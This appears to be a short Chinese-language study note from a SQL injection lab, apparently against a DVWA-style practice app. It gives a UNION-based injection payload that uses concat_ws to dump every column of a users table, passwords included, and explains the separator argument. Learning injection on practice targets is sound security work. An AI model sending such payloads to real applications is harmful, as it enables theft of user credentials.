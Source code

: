 

获取全部字段内容：

```
1' union select 1, concat_ws('-', user_id, first_name, last_name, user, password, avatar, last_login, failed_login) from users #
 
 concat_ws 函数可以指定分隔符'-'
 不指定分隔符，默认位逗号分隔
```

![image-20240913184803546](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913184803546.png)